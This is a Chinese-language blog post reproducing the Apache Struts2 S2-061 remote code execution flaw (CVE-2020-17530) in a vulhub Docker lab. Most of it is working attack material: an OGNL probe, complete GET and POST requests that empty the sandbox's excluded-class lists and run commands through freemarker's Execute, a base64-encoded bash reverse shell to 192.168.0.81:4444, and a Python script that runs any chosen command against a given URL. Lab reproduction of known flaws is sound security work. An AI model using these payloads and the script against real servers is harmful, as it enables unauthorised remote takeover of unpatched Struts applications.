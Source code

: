 ```yaml
---
title: strcuts2-061复现
tags:
  - 安全
  - 复现
categories:
  - 安全
copyright: true
permalink: strcuts2-061复现
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-12-13 21:09:05
---
```


Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061 Struts 远程代码执行漏洞，开发人员使用了 %{…} 语法，从而攻击者可以通过构Payload，从而造成远程代码执行。


<!--more-->
该漏洞编号为 CVE-2020-17530 ，漏洞等级：高危 ，漏洞评分：7.5

S2-061是对S2-059沙盒进行的绕过！



http://www.jackson-t.ca/runtime-exec-payloads.html


### 漏洞复现

docker环境地址：

项目地址：
```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-061
```


### 漏洞利用



验证是否存在漏洞


```
%{ 'AJay' + (10 + 3).toString()}
```
url编码之后encodeURIComponent

```
%25%7B%20%27AJay%27%20%2B%20(10%20%2B%203).toString()%7D
```

如果能够计算，说明存在漏洞

![20201213133910](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213133910.png)

**get执行exp**


```
GET /?id=%25%7B(%27Powered_by_Unicode_Potats0%2Cenjoy_it%27).(%23UnicodeSec+%3D+%23application%5B%27org.apache.tomcat.InstanceManager%27%5D).(%23potats0%3D%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3D%23attr%5B%27struts.valueStack%27%5D).(%23potats0.setBean(%23stackvalue)).(%23context%3D%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3D%23potats0.get(%27memberAccess%27)).(%23emptySet%3D%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2C%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2C%23emptySet)).(%23exec%3D%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3D%7B%27ls%27%7D).(%23res%3D%23exec.exec(%23cmd))%7D HTTP/1.1
Host: xxxxxxx:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=node0q527078386vpgx6z02bism1s1.node0
Connection: close


```

![20201213131012](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213131012.png)

**post执行exp**
```
POST /index.action HTTP/1.1
Host: 192.168.1.107:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--

```

![20201213132730](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213132730.png)



**反弹shell**
```
POST /index.action  HTTP/1.1
Host: 192.168.1.107:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Length: 949
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Length: 827


------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"


%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuODEvNDQ0NCAgMD4mMQ==}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```


如果不能返回，可以使用base64下
http://www.jackson-t.ca/runtime-exec-payloads.html

![20201213133056](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201213133056.png)



**脚本验证**

```
# encoding=utf-8
import requests
import sys
from lxml import etree




def exp(url,cmd):
    payload="%25%7b(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application%5b%27org.apache.tomcat.InstanceManager%27%5d).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr%5b%27struts.valueStack%27%5d).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d%7b%27"+cmd+"%27%7d).(%23res%3d%23exec.exec(%23cmd))%7d"
    tturl=url+"/?id="+payload
    r=requests.get(tturl)
    page=r.text
#   etree=html.etree
    page=etree.HTML(page)
    data = page.xpath('//a[@id]/@id')
    print(data[0])


if __name__=='__main__':
    print('+------------------------------------------------------------+')
    print('+ EXP: python struts2-061-poc.py http://8.8.8.8:8080 id      +')
    print('+ VER: Struts 2.0.0-2.5.25                                   +')
    print('+------------------------------------------------------------+')
    print('+ S2-061 RCE && CVE-2020-17530                               +')
    print('+------------------------------------------------------------+')
    if len(sys.argv)!=3:
        print("[+]ussage: http://ip:port command")
        print("[+]============================================================")
        sys.exit()
    url=sys.argv[1]
    cmd=sys.argv[2]
exp(url,cmd)

```

### 参考链接
https://mp.weixin.qq.com/s?__biz=MzAxNzkyOTgxMw==&mid=2247485269&idx=2&sn=44c0ef7230f2715fabe07620865db6dc&chksm=9bdf446faca8cd797b27154448a5edf2c7f1ef246f5534822a76537b2c0288d66f740f38da2c&scene=27&key=a807eef1e3c777ceb88567f45f0ba437dcbc2f7018dd8a74633d4ae819a5b89ae9dc2361b9290614cb1b22394f73065d6ca19a88be9266a66d162529b304fe347634ac99cbec43a99c42c8d6eae23d0524a56a7d9df1533542db731c7c5f77918e5e245ba0d092d5ea0fafd7f7126ecd1cf28330fc2626b1c1da47a6f593980d&ascene=0&uin=MjM2NjMzNTUwNA%3D%3D&devicetype=Windows+Server+2016+x64&version=6300002f&lang=zh_C
https://mp.weixin.qq.com/s?__biz=MzU2NDgzOTQzNw==&mid=2247486072&idx=1&sn=b7b1c04a72632ed5fd45bf2c59d51a11
http://www.jackson-t.ca/runtime-exec-payloads.html